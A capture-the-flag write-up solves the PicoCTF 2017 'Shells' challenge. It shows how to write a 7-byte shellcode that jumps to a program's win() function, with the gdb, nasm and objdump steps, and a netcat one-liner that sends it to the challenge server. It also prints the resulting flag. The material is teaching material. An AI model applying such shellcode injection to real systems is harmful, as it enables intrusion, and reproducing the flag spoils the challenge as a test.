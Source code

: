 ### Shells - 70 points

> How much can a couple bytes do? Use shells! Source. Connect on shell2017.picoctf.com:61986.

Hint:
> * Read about basic shellcode
> * You don't need a full shell (yet...), just enough to get the flag

We are presented with a piece of code, that has a function called win (not called anywhere).
```c
void win(){
    system("/bin/cat ./flag.txt");    
}
```
However, we have a string that we can overflow. This string will read from our input (stuff), and will be used to create a function pointer that will be called.
```c
int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
...
void (*func)() = (void (*)())stuff;
    func();
```

In this problem we can only give 10 bytes, therefore we want to use them to call the win function.
The first thing we need, is to find the corresponding address.
Using gdb, we can print it by:
```
(gdb) p win                                                                                        
$1 = {<text variable, no debug info>} 0x8048540 <win>
```

Now, (just like the hint says) we create our own shellcode:
```
;shell.asm
[SECTION .text]

global _start

_start:
	mov eax, 0x08048540
    	call eax
```
After this, we just get the corresponding hex:
```
$ nasm -f elf shell.asm
$ ld -o shell shell.o
$ objdump -d shell
```
Which gives us:
```
08048060 <.text>:
 8048060:	b8 40 85 04 08       	mov    $0x8048540,%eax
 8048065:	ff d0                	call   *%eax
```
The hex will be:
```
\xb8\x40\x85\x04\x08\xff\xd0
```
Finally, we just pass it onto the program. We can do this by running this command:
```
python -c 'print("\xb8\x40\x85\x04\x08\xff\xd0")' | nc shell2017.picoctf.com 61986
```
This returns us the following:
```
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
9e33b38da0c2cf684298bc23aa77685e
```

Flag:
```
9e33b38da0c2cf684298bc23aa77685e
```
